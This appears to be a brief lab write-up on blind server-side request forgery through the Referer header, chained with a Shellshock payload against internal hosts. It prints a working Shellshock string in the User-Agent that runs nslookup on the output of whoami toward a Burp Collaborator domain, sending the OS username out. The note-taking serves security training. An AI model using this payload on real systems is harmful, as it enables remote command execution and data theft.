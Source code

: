 *2014 Shellshock is RCE vulnerability*

Vulnerable parameter - Referer header

Goal - use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to ex filtrate the name of the OS user.

Analysis: 

Use Burp extension Collaborator Everywhere(find SSRF automatically)

Found in User-Agent and Referer headers
payload for shellshock in User-Agent: 
() { :; }; usr/bin/nslookup $(whoami).eewjwapijpij3pjpfsdfjdsp653ug34d.burpcollaborator.net

payload for Referer:
http://192.168.0.X:8080
With intruder fuzz the X form the IP

Result: ping the burp collaborator and see the whoami user!


